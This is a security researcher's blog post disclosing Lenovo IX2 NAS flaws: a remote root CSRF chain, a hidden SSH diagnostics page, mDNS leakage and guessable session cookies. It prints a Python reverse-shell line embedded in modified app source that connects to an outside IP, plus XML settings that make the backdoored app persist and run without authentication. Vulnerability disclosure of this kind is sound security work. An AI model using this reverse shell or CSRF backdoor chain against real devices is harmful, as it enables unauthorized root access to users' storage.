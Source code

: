 #date: 2014-1-6 20:33:00 GMT
#slug: lenovo-ix2-csrf-root
#tags: lenovo,ix2,csrf,root,shell
#title: Lenovo IX2 Remote Root(CSRF), Multiple Vulnerabilities
#type: text
Jon Lamendola

Over the holidays, we did an internal hackathon. I had access to a Lenovo IX2 NAS device, and I love breaking physical boxes - of course I had to go for it as my target. It's a simple ARM device running LifeLine Linux, a distribution designed by Lenovo to run on their NAS devices, both consumer and enterprise level. Within 5 minutes of opening the box and turning it on, I noticed there's absolutely no CSRF protection on any pages. 

So naturally, I spent a good deal of time looking for SQL/Command Injection. I came up with nothing. They sanitize all input fields very well. So I continued digging around on the device, with my sights set on getting a root shell. I discovered that you can turn on SSH, as well as set the SSH port/password via a hidden /manage/diagnostics.html page, that once again doesn't have CSRF protection on it. That was something, but seeing as how most of these devices are behind a firewall, the SSH was fairly useless from a remote attacker standpoint. 



I noticed an 'Applications' page on the device, that allows user to extend the functionality of their NAS device by installing third party apps. I started by trying to upload simple shell/php/cgi scripts, but with no luck. It's pretty picky about the formatting. I then tried to upload a valid third party app available from their lifelineapps store, and noticed it was in a strange .o2 file. After running file on it, turns out it's just a dpkg. 

I tried modifying files inside it and installing, but at compilation it creates an encrypted md5 hidden somewhere inside the .o2 file, making my modified .o2 invalid. After some searching around, I found the SDK available at http://www.developer.lifelineapps.com, available for the price of an email address. Unfortunately, it's not very well documented, and I didn't have a whole lot of time to figure out how their compiler expects the apps to be built. So I went for plan b - make an evil app from a demo. I downloaded the source for the Resource Monitor app, which is available once you've signed up for the SDK. 

Here's how I got a remote root shell running via CSRF.
  
**Lenovo IX2**
  
First, I opened up the main.c file inside the 'cpumon' folder. Pretty simple C program that retrieves system resource information, and prints it out into a JSON object. Here's what my modifications looked like:
```c
#include <stdlib.h>

printf("\"swapUsed\": \"%d\"", swapUsed); // in original code, 
	printf("}");						  // included as a reference point
	//python reverse connectback shell from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
	system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.112\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'"); 
```

After modifying the main.c file, I compiled the app from the 'resmon' folder using 'make target=arm-ix2-ng', and packed it into the required .tar.gz, assuming it would run upon install. Nope. I was able to get the shell to spawn by manually sshing in and executing, so I knew it was working as intended, but it wouldn't run. After some digging around, and a whole lot of frustration, I found the application.xml file had some options I could use to my advantage, particularly the cgibinDir option. 

I added the following to the application.xml files existing options:
```xml
<application cgibinDir="Yes" safeApp="Yes" isSecureUI="Yes"">
	<executable restartOnReboot="Yes" runOnce="No" sequence="1000" minutes="30" scheduled="Yes" />
</application>

```
The options will enable the cgi bin directory to be navigatable, set the executable to run at boot and schedule it to run every 30 minutes. The compiler is so kind as to create a symlink to the cpumon executable in the cgi directory(remember we can't modify any files after compilation or it will break). Alright, so now we've got an evil installer that can be run via csrf, but how do we go about exploiting it?

The first step is to generate the CSRF file upload. This can be done using an XMLHTTPRequest, which burp is handy enough to make with just a few clicks. There are two ways we can go about finding the IP of the internal device: 1, we can use the default mdns(ix2-dl.local) and hope the user hasn't changed it, or two, we can use webRTC to reveal the internal netmask and then force the user to ping scan their own network via XMLHTTPRequests. The PoC's for both are available on request. The exploit then sends the payload to all live IP's. Once the file has been uploaded, the executable should run automatically, as we've set it to be a scheduled with the application.xml. If it doesn't run for some reason, or you want to force it to run outside of the scheduled timing, that's why we set up the cgibinDir option. Simply navigate to http:ix2-dl.local/cpumon/cpumon-cgi/cpumon(no auth required), and we have a shell!

**Demonstration Video**
<iframe src="//player.vimeo.com/video/83540983" width="500" height="281" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe> <p><a href="http://vimeo.com/83540983">Lenovo ix2-dl Root via CSRF</a> from <a href="http://vimeo.com/andyet">&amp;yet</a> on <a href="https://vimeo.com">Vimeo</a>.</p>

**Alright, so who's vulnerable?**
Any device running the Lenovo LifeLineEMC software version 4.0.6.19294 and prior is vulnerable. Simply change the compile target and rebuild. It does require that the user who visits the malicious page be logged in as admin, however.

**Hidden Page allows user to enable SSH and set Port+Password**
Example: http://ix2-dl/manage/diagnostics.html
This page allows a user to set the root SSH password and port, prefixed by the easily bruteforced word 'soho'. I.E. password test requires a logon password of sohotest. It appears this is intended behaviour, but is a huge risk given that there are no anti-CSRF tokens present on the page.

**Information Leakage**
The Lenovo device automatically sets the internal address to http://ix2-dl.local via MDNS. This makes it a whole lot easier to exploit the formentioned CSRF Vulnerabilities.

**Weak Session Cookies**

The Lenovo IX2-DL appears to set session cookies as
```
<User IP Address>.<Current Epoch Time>. 
```
This is not an adequate amount of entropy to prevent bruteforcing. In reality, an attacker only needs to guess 7-8 numeric characters before he has an authenticated session. Adding a secret nonce and hashing of the value before making it a session cookie would make the session cookie much more difficult to bruteforce.

